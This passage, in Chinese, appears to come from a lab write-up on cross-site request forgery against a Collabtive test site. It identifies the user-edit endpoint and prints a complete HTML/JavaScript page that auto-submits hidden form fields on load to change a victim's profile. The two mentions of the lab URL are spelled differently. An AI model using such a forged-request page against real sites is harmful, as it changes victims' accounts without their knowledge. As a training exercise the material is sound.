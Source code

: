 ![图片描述信息](img/userid13labid876time1429077497500.jpg)

通过抓取的信息，我们可以得知：

验证页面：http://www.csfrlabcollabtive.com/manageuser.php?action=edit

用户姓名 id:name；company；email 等等信息我们都可以进行修改；

**这里最好使用其他用户进行测试**

但是用户修改用户的方式 post 提交，我们就需要自己构造一个危险页面

```
>     <html><body><h1>
>     This page forges an HTTP POST request.
>     </h1>
>     <script>
>     function post(url,fields)
>     {
>     //create a <formelement.
>     var p = document.createElement('form');
>     //construct the form
>     p.action = url;
>     p.innerHTML = fields;
>     p.target = '_self';
>     p.method = 'post';
>     //append the form to the current page.
>     document.body.appendChild(p);
>     //submit the form
>     p.submit();
>     }
>     function csrf_hack()
>     {
>     var fields;
>     // The following are form entries that need to be filled out
>     // by attackers. The entries are made hidden, so the victim
>     // won't be able to see them.
>     fields += "<input type='hidden' name='name' value='peter'>"; //修改用户名
>     fields += "<input type='hidden' name='userfile' value=''>";  
>     fields += "<input type='hidden' name='company' value='seed'>";  //修改公司名
>     post('http://www.csrflabcollabtive/manageuser.php?action=edit',fields);
>     }
>     // invoke csrf_hack() after the page is loaded.
>     window.onload = function() { csrf_hack(); }
>     </script>
>     </body></html> 
```

